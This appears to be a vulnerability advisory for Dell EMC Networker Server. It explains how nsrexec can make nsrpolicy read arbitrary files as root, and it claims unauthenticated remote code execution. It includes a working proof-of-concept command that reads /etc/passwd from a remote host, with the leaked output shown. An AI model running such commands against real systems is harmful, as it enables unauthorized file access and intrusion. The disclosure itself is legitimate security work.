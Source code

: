 #### Impact

An unauthenticated attacker can gain remote command execution with administrative
privileges (root on Linux, SYSTEM on Windows) on hosts where Dell EMC Networker Server
is installed.

An unauthenticated attacker can gain remote access to any file on hosts where either
Dell EMC Networker Server is installed. Some limitations apply to files that can be read,
mainly due to the content they hold (special characters triggering nsrpolicy to exit early
without leaking the full content).

#### Affected Products

The following Dell EMC Networker products are affected:

- Dell EMC Networker Server version >= 9.1.0.2 for Linux (remote arbitrary file read and RCE)
- Dell EMC Networker Server version >= 9.1.0.2 for Windows (remote arbitrary file read and RCE)

Please note that we could not test against versions prior to 9.1.0.2 for lack of availability. The latest version we tested against is version **19.4.0.0.Build.25**, which is the latest stable version per Dell EMC.


#### Description

From the nsrexec manual page:

> The  nsrexec  command  is run only by other NetWorker commands. It is used to remotely execute commands on NetWorker clients running nsrexecd, and also to monitor the progress of those commands.

This description is misleading given that nsrexecd runs on every EMC Networker component (server, client, and storage node). We also would like to point out that by "commands", they mean "networker commands" and not "arbitrary commands". Networker commands are a limited subset of Networker binaries such as *savefs* or *savegrp*

One command that caught our eye is **nsrpolicy**:

> The  nsrpolicy  program  executes  NetWorker  backup  configuration  and activities. nsrpolicy performs the backup configuration through its three parameters: policy, workflow and action.

This command can take filenames as input, respectively:

```
nsrpolicy input-file
                 { --file_name file_name | -f file_name } [ --stop_on_error bool | -S bool ]

```

Given that nsrpolicy does not validate the received path and that it runs with root privileges, we can force it to read any file and print out the content on error:

```
[root@networker-client ~]# export RCMD="nsrpolicy input-file -f /etc/passwd"
[root@networker-client ~]# nsrexec -c 192.168.121.238 2>&1 | grep 'Command from file:'
121415:nsrpolicy: Command from file: root:x:0:0:root:/root:/bin/bash
121415:nsrpolicy: Command from file: bin:x:1:1:bin:/bin:/sbin/nologin
121415:nsrpolicy: Command from file: daemon:x:2:2:daemon:/sbin:/sbin/nologin
121415:nsrpolicy: Command from file: adm:x:3:4:adm:/var/adm:/sbin/nologin
121415:nsrpolicy: Command from file: lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
121415:nsrpolicy: Command from file: sync:x:5:0:sync:/sbin:/bin/sync
121415:nsrpolicy: Command from file: shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
121415:nsrpolicy: Command from file: halt:x:7:0:halt:/sbin:/sbin/halt
121415:nsrpolicy: Command from file: mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
121415:nsrpolicy: Command from file: operator:x:11:0:operator:/root:/sbin/nologin
121415:nsrpolicy: Command from file: games:x:12:100:games:/usr/games:/sbin/nologin
121415:nsrpolicy: Command from file: ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
121415:nsrpolicy: Command from file: nobody:x:99:99:Nobody:/:/sbin/nologin
121415:nsrpolicy: Command from file: systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
121415:nsrpolicy: Command from file: dbus:x:81:81:System message bus:/:/sbin/nologin
121415:nsrpolicy: Command from file: polkitd:x:999:998:User for polkitd:/:/sbin/nologin
```